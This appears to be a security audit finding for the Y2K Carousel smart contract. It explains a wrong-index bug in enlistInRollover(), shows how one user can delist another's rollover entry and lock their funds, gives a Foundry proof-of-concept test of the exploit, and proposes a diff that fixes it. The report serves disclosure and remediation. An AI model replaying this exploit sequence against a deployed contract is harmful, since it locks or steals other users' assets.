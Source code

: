 shaka

high

# `enlistInRollover()` stores wrong index for receiver

## Summary

When a user that has already queued up a rollover calls again `Carousel.sol:enlistInRollover` he is incorrectly assigned the index of the last user in the queue.

## Vulnerability Detail

In `enlistInRollover()` it is checked if the `_receiver` address has already queued up a rollover. If that is the case, his entry in the queue array is updated. However, in line 268 the mapping `ownerToRollOverQueueIndex` that links the `_receiver` with the index of the `rolloverQueue` is incorrectly updated, pointing to the last item of the array.

```solidity
252  // check if user has already queued up a rollover
253  if (ownerToRollOverQueueIndex[_receiver] != 0) {
254      // if so, update the queue
255      uint256 index = getRolloverIndex(_receiver);
256      rolloverQueue[index].assets = _assets;
257      rolloverQueue[index].epochId = _epochId;
258  } else {
259      // if not, add to queue
260      rolloverQueue.push(
261          QueueItem({
262              assets: _assets,
263              receiver: _receiver,
264              epochId: _epochId
265          })
266      );
267  }
268  ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;
```

## Impact

The issue can lead to users having their assets locked and the rollover feature not working anymore.

The sequence of events is as follows:
- Alice has a balance of 1 Wad for an epoche and queues 0.5 Wad in a rollover. 
	```solidity
	rolloverQueue[0] = {assets: 0.5e18, receiver: Alice, epochId: 1}
	ownerToRollOverQueueIndex[Alice] = 1
	```
- Bob queues 10 Wad.
	```solidity
	rolloverQueue[0] = {assets: 0.5e18, receiver: Alice, epochId: 1}
	rolloverQueue[1] = {assets: 10e18, receiver: Bob, epochId: 1}
	ownerToRollOverQueueIndex[Alice] = 1
	ownerToRollOverQueueIndex[Bob] = 2
	```
- Alice decides to raise the amount and calls `enlistInRollover()` with an amount of 1 Wad.
	```solidity
	rolloverQueue[0] = {assets: 1e18, receiver: Alice, epochId: 1}
	rolloverQueue[1] = {assets: 10e18, receiver: Bob, epochId: 1}
	ownerToRollOverQueueIndex[Alice] = 2
	ownerToRollOverQueueIndex[Bob] = 2
	```
- Alice calls `delistInRollover()`. As `ownerToRollOverQueueIndex[Alice]` points to `rolloverQueue[1]`, is Bob's entry that is removed from the array. However, the `ownerToRollOverQueueIndex` mapping is updated for Alice.
	```solidity
	rolloverQueue[0] = {assets: 1e18, receiver: Alice, epochId: 1}
	ownerToRollOverQueueIndex[Bob] = 2
	```
 - Now Alice can call `withdraw()` or `safeTransferFrom()`, as she will pass the `notRollingOver` check while keeping her entry in `rolloverQueue` array. She can also call `enlistInRollover()` again, creating a new entry and keep repeating the process. Let's assume she withdraws the 1 Wad.
 - Bob has now his 10 Wad locked. Cannot withdraw as `ownerToRollOverQueueIndex[Bob] = 2`, so trying to fetch `rolloverQueue[1]` will result in `out of bounds` exception. Only if new entries are added to the queue he will be able to unlist his assets, but then another user will have the same issue.
 - When `mintDepositInQueue()` is executed by the relayer, it will revert as 1 Wad is tried to be burned from Alice's balance, which is 0 at this point.

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L238-L271

## Proof of concept

```solidity
function testEnlistInRolloverBug() public {
    uint40 _epochBegin = uint40(block.timestamp + 1 days);
    uint40 _epochEnd = uint40(block.timestamp + 2 days);
    uint256 _epochId = 2;

    vault.setEpoch(_epochBegin, _epochEnd, _epochId);

    // USER deposits 10 ether
    vm.startPrank(USER);
    IERC20(UNDERLYING).approve(address(vault), 100 ether);
    vault.deposit(_epochId, 10 ether, USER);
    // Enlists in rollover with 10 ether
    vault.enlistInRollover(_epochId, 10 ether, USER); // total enrolled: 10 ether
    vm.stopPrank();

    // USER2 deposits 10 ether
    uint256 user2Amount = 10 ether;
    vm.startPrank(USER2);
    IERC20(UNDERLYING).approve(address(vault), 10 ether);
    vault.deposit(_epochId, user2Amount, USER2);
    // Enlists in rollover with 10 ether
    vault.enlistInRollover(_epochId, 10 ether, USER2);
    vm.stopPrank();

    // USER enlist in rollover with 10 ether
    vm.startPrank(USER);
    vault.enlistInRollover(_epochId, 10 ether, USER);
    // Calls delistInRollover
    vault.delistInRollover(USER);
    // Enlists in rollover with 10 ether
    vault.enlistInRollover(_epochId, 10 ether, USER);
    vm.stopPrank();

    // USER3 deposits 10 ether
    vm.startPrank(USER3);
    IERC20(UNDERLYING).approve(address(vault), 10 ether);
    vault.deposit(_epochId, 10 ether, USER3);
    // Enlists in rollover with 1 ether
    vault.enlistInRollover(_epochId, 10 ether, USER3);
    vm.stopPrank();

    // USER enlist in rollover with 10 ether
    vm.startPrank(USER);
    vault.enlistInRollover(_epochId, 10 ether, USER);
    // Calls delistInRollover
    vault.delistInRollover(USER);
    vm.stopPrank();

    // resolve prev epoch with win
    vm.warp(block.timestamp + 2 days + 1 hours); // warp to one hour after prev epoch end
    vm.startPrank(controller);
    vault.resolveEpoch(_epochId);
    vault.setClaimTVL(_epochId, 33 ether);
    vm.stopPrank();

    // USER withdraws gains from previous epoch
    vm.startPrank(USER);
    vault.withdraw(_epochId, 10 ether, USER, USER);
    vm.stopPrank();

    // create second epoch
    _epochBegin = uint40(block.timestamp + 1 days);
    _epochEnd = uint40(block.timestamp + 2 days);
    _epochId ++;
    vault.setEpoch(_epochBegin, _epochEnd, _epochId);
    // Mint rollovers fails (USER is in queue but has no tokens to be burned)
    vm.expectRevert();
    vault.mintRollovers(_epochId, 100000);

    // USER3 cannot recover deposit
    vm.startPrank(USER3);
    vm.expectRevert();
    vault.delistInRollover(USER3);
    vm.expectRevert();
    vault.withdraw(_epochId, 10 ether, USER3, USER3);
    vm.stopPrank();
}
```

## Tool used

Manual Review

## Recommendation

Assign the new index to `ownerToRollOverQueueIndex[_receiver]` only if is a new entry.
```diff
  } else {
      // if not, add to queue
      rolloverQueue.push(
          QueueItem({
              assets: _assets,
              receiver: _receiver,
              epochId: _epochId
          })
      );
+     ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;
  }
-  ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;
```